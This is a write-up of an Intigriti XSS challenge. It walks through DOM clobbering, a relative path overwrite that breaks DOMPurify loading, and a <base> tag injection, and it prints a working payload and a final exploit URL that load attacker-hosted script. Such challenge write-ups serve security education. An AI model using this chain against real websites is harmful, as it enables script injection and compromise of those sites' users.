 # July XSS challenge - Intigriti 2024

![image](https://github.com/Dom0nS/private/assets/74207547/a8ef61b4-4fa6-4136-b22b-d6af4c6a8967)

The challenge rules consist of the following:

![image](https://github.com/Dom0nS/private/assets/74207547/7e661dcd-3860-4358-ba32-c935ff54ee57)

## What was this challenge about?

The website was fairly simple. It featured a form through which HTML code could be injected, but JavaScript code execution was not allowed.

![image](https://github.com/Dom0nS/private/assets/74207547/28b0d342-aa37-4124-b52a-f93783b27988)

The execution of the script was stopped by the CSP, and there was also a message about an undefined variable that would be useful later.

![image](https://github.com/Dom0nS/private/assets/74207547/4996b266-7db8-4e5b-a360-9c50052dde27)

Content Security Policy looked rather strict, important part was that `default-src` was set to `*`.

![image](https://github.com/Dom0nS/private/assets/74207547/b8a05882-31a9-47f8-ac06-305acae8f62b)

## Closer look at the source code

The interesting part of the source code was, of course, JavaScript. The main script included processing of the form, the content of which was placed in an `innerHTML` sink. Then it was followed by a check for certain conditions, and further code was marked as `"for next release"`.

```html
<script integrity="sha256-C1icWYRx+IVzgDTZEphr2d/cs/v0sM76a7AX4LdalSo=">
      document.getElementById("memoForm").addEventListener("submit", (event) => {
        event.preventDefault();
        const memoContent = document.getElementById("memoContentInput").value;
        window.location.href = `${window.location.href.split("?")[0]}?memo=${encodeURIComponent(
          memoContent
        )}`;
      });

      const urlParams = new URLSearchParams(window.location.search);
      const sharedMemo = urlParams.get("memo");

      if (sharedMemo) {
        const displayElement = document.getElementById("displayMemo");
        //Don't worry about XSS, the CSP will protect us for now
        displayElement.innerHTML = sharedMemo;

        if (origin === "http://localhost") isDevelopment = true;
        if (isDevelopment) {
          //Testing XSS sanitization for next release
          try {
            const sanitizedMemo = DOMPurify.sanitize(sharedMemo);
            displayElement.innerHTML = sanitizedMemo;
          } catch (error) {
            const loggerScript = document.createElement("script");
            loggerScript.src = "./logger.js";
            loggerScript.onload = () => logError(error);
            document.head.appendChild(loggerScript);
          }
        }
      }
    </script>
```

I immediately hooked my eye on the `try...catch` block, in which JavaScript code from the logger.js file was added. The ability to manipulate the source of such script, would allow obtaining XSS and bypassing the CSP's security features.

```js
       try {
         const sanitizedMemo = DOMPurify.sanitize(sharedMemo);
         displayElement.innerHTML = sanitizedMemo;
       } catch (error) {
         const loggerScript = document.createElement("script");
         loggerScript.src = "./logger.js";
         loggerScript.onload = () => logError(error);
         document.head.appendChild(loggerScript);
       }
```

## Step 1 - DOM Clobbering

With the idea in my head, I started trying to reach the previously mentioned code. The first step was the `if` conditions. I noticed that the expressions were not nested (the code was missing the curly brackets), so both conditions were checked regardless of the result of the first one.

```js
if (origin === "http://localhost") isDevelopment = true;
        if (isDevelopment) {
          //Testing XSS sanitization for next release
          try {
            const sanitizedMemo = DOMPurify.sanitize(sharedMemo);
            displayElement.innerHTML = sanitizedMemo;
          } catch (error) {
            const loggerScript = document.createElement("script");
            loggerScript.src = "./logger.js";
            loggerScript.onload = () => logError(error);
            document.head.appendChild(loggerScript);
          }
        }
```
From the console error earlier, I remembered that the `isDevelopment` variable was not defined anywhere else in the code, allowing me to declare it using DOM Clobbering. (More about this attack - [link](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering))

I inserted a special `<a>` tag into the form, which, when placed in the DOM, functioned as a valid variable.

![image](https://github.com/Dom0nS/private/assets/74207547/648f39de-45b4-4906-a862-47de3740b602)

## Step 2 - Relative Path Overwrite

The first part was quite easy, now it's time for something more difficult. I had to jump to the catch section, in other words cause an error in one of the two lines of the try block.


```js
 try {
            const sanitizedMemo = DOMPurify.sanitize(sharedMemo);
            displayElement.innerHTML = sanitizedMemo;
          } catch (error) {
            const loggerScript = document.createElement("script");
            loggerScript.src = "./logger.js";
            loggerScript.onload = () => logError(error);
            document.head.appendChild(loggerScript);
          }
```

Initially I spent a lot of time trying to cause an error in the sanitize function of the DOMPurify library. Trying different formats, specially encoded characters, or feeding a large portion of data was not successful at all. 

After sitting on this for a while, it occurred to me that the application was using the DOMPurify library in the latest version at the time of this challenge. It was very unlikely that there would be an easy way to cause an error in a core function of such well-known library. I knew it had to be something else.

![image](https://github.com/Dom0nS/private/assets/74207547/7906f0d6-38a9-4299-9504-12f4e9098f28)

After several hours of trying, I felt like giving up. Deprived of hope, I started looking for other things that might trigger an error in the try block. I came up with an idea, what if the DOMPurify library didn't load successfully. In that case, calling a sanitize function that didn't exist would cause an error.

I started playing around with the request path and after simply adding `/` to the end of the URL, I got the following error in the console.

![image](https://github.com/Dom0nS/private/assets/74207547/00797cd3-eefe-4d85-8346-6f2df9a48217)

That was it! It turned out that website was vulnerable to RPO (Relative Path Overwrite - [link](https://support.detectify.com/support/solutions/articles/48001048955-relative-path-overwrite))

The DOMPurify library was loaded using the relative path `<script src="./dompurify.js"></script>`, so after adding `/` at the end of the URL, the browser was unable to find it. Thankfully, server returned the challenge page regardless of the URL after the `/challenge/` fragment.

![image](https://github.com/Dom0nS/private/assets/74207547/b80151a5-8bea-4e30-9699-0e5e53c13d7c)

## Step 3 - Base tag is the way

The last thing left to do is to get the XSS from the attached script. 

```js
catch (error) {
            const loggerScript = document.createElement("script");
            loggerScript.src = "./logger.js";
            loggerScript.onload = () => logError(error);
            document.head.appendChild(loggerScript);
          }
```

After combining steps one and two, the browser returned an error for the undefined logError() function. This happened because the logger.js script was also loaded using a relative path.

![image](https://github.com/Dom0nS/ctf/assets/74207547/065232a4-b8e5-40ab-9cf2-a18d04afe3b2)

Initially I thought of DOM Clobbering, but unfortunately this attack vector does not allow declaring functions, only variables. Then an html tag came to mind - `<base>`.

`The <base> tag specifies the base URL and/or target for all relative URLs in a document.`

As I was able to add HTML tags to the DOM, I was also able to use the `<base>` tag to change the address from which scripts using the relative path were loaded. In this particular case, I was only able to change the URL for scripts loaded after the HTML code was added to the DOM.

After a quick test, my idea worked. Upon using the `<base>` tag, the browser attempted to load the script from the address I had specified.

![image](https://github.com/Dom0nS/private/assets/74207547/c68f0265-6cca-4564-8b3f-01dea77f1739)

Now all that remains is to host the file on the server and check if the JavaScript code will actually be executed.
<br>
<br>

The logger.js file on my local server, port 3333. (In a real-world scenario, the file could be hosted on a publicly accessible domain)

```js
alert(document.domain);
```

Payload inserted in the form at `https://challenge-0724.intigriti.io/challenge/index.html/`

```html
<a id=isDevelopment></a><base href=http://localhost:3333>
```

XSS!

![image](https://github.com/Dom0nS/ctf/assets/74207547/cded1d67-a06e-4121-b125-55216ad295e6)

## Final payload

```
https://challenge-0724.intigriti.io/challenge/index.html/?memo=%3Ca%20id%3DisDevelopment%3E%3C%2Fa%3E%3Cbase%20href%3Dhttp%3A%2F%2Flocalhost%3A3333%3E
```
